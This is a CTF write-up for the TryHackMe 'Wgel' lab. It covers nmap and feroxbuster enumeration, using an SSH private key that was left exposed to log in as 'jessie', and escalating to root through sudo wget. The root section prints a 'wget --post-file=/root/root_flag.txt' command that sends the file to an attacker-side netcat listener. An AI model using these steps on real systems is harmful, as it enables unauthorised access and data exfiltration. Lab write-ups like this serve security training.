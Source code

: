 ```yaml
---
layout: post
title: "☁️ TryHackMe - WGEL CTF"
date: 2025-07-24 10:00:00 +0200
categories: [Writeups]
tags: [ctf, tryhackme, pentest, easy]
pin: false
toc: true
comments: true
---
```


<div style="text-align: center;">
  <img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png" alt="WGEL CTF" width="300">
</div>


## Introduction

| Description                       | Category                       | Level | Link                               |
| --------------------------------- | ------------------------------ | ----- | ---------------------------------- |
| Can you exfiltrate the root flag? | Enumeration, web, ssh, privesc | Easy  | https://tryhackme.com/room/wgelctf |


> Have fun with this easy box.
{: .prompt-info }

<br>

## 👨‍💼 User\_flag

First reflex when I start a CTF, I always start network scan on the target with \*\*nmap \*\*. This allows me to see all the active services on the target, this will allow me to infiltrate it.

```bash
nmap -p- -A 10.10.57.163
```

| OPTIONS | Description                                |
| ------- | ------------------------------------------ |
| `-p-`   | Scan ports from 1 through 65535 (all)      |
| `-A`    | Detection of OS and software versions used |

<br>

![screen 1](https://cdn.hashnode.com/res/hashnode/image/upload/v1667829270280/S72YGl_jJ.png)

I see that an Apache server is running on port 80, from my browser we can see the default page.

![screen 2](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835292581/aJa5T-a8t.png)

After checking the source code, we can identify a potential user --&gt; **Jessie** Let's put it aside, it will interest us for the continuation

> **Note:** It is essential to take notes on all information, loot found during the CTF.
{: .prompt-tip }


![screen 3](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835611781/YgLwravJ3.png )

I will now run an enumeration on the web page to list all hidden directories/files I use \*\*FerroxBuster \*\*which is nicer but a \*\*dirb \*\*will do very well

```bash
└─$ feroxbuster -u http://10.10.57.163 -w /usr/share/wordlists/dirb/common.txt
```

| OPTIONS | Description          |
| ------- | -------------------- |
| `-u`    | The target URL       |
| `-w`    | Path to the wordlist |

![screen 4](https://cdn.hashnode.com/res/hashnode/image/upload/v1667836117801/jHHRzm1OT.png )

We found a hidden page that matches **[http://10.10.57.163/sitemap/.ssh/](http://10.10.57.163/sitemap/.ssh/)**

Let's see what's there, HOOO surprise a ssh key

![screen 5](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838342755/XF4Xxtxji.png)

Download the ssh key and change the rights on it with chmod

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ wget http://10.10.57.163/sitemap/.ssh/id_rsa
--2022-11-07 17:10:46--  http://10.10.57.163/sitemap/.ssh/id_rsa
Connexion à 10.10.57.163:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa.1 »

id_rsa.1       100%[=======================>]   1,64K  --.-KB/s    ds 0s      

2022-11-07 17:10:46 (198 MB/s) — « id_rsa.1 » sauvegardé [1675/1675]

┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ chmod 600 id_rsa
```

> After downloading a private SSH key (`id_rsa`), you **must** restrict its permissions<br>
> The `chmod 600 id_rsa` command gives **read and write permissions only to the owner** `6` :<br>
> read `4` + write `2`, and **no permissions** to group or others `0`
{: .prompt-warning }


Ok now, let's try to connect with ssh

```bash
ssh -i id_rsa jessie@10.10.57.163
```

| OPTIONS  | Description                                                                                |
| -------- | ------------------------------------------------------------------------------------------ |
| `-i`     | Selects a file from which the identity (private key) for RSA or DSA authentication is read |
| `jessie` | Remember this is the user found on the source code of the default web page                 |


![screen 6](https://cdn.hashnode.com/res/hashnode/image/upload/v1667837733101/IWr-vmnH9.png)

Let's find the flag from Jessie's account

![screen 7](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838734846/4yNYdftHHt.png)

First objective achieved, we now have the user flag, let's go to the root flag

<br>

## 💀 Root\_flag

Once connected as a user, my next goal is to increase my privileges, let's check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
```
| OPTIONS | Description                                                                                                                                                                         |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-l`    | If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. |

![screen 8](https://cdn.hashnode.com/res/hashnode/image/upload/v1667839805405/e-jImgSH6.png)

We can see that wget is executable as root without password.

Let's go to [https://gtfobins.github.io/gtfobins/wget/](Link)


Let's launch our listener from the attacking machine in order to get the content of the file we are interested in (root\_flag.txt) and execute the wget command from the target

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ nc -lvnp 9001
_________________________________________________________

jessie@CorpOne:~$ sudo -u root /usr/bin/wget --post-file=/root/root_flag.txt 10.9.13.192:9001
```

![screen 9](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840461095/op7kMZ4Lt.png)

![screen 10](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840594374/rxFUnq4oS.png)

🏁 We have now obtained our last root flag. I hope you enjoyed this first CTF write-up, feel free to share it.


> 🛠 All documentation for tools mentioned or used :<br>
> nmap <https://nmap.org/book/man.html><br>
> Ferroxbuster <https://epi052.github.io/feroxbuster-docs/docs/><br>
> dirb <https://www.kali.org/tools/dirb/><br>
> ssh <https://www.kali.org/tools/openssh/><br>
> sudo <https://www.kali.org/tools/sudo/>
{: .prompt-info }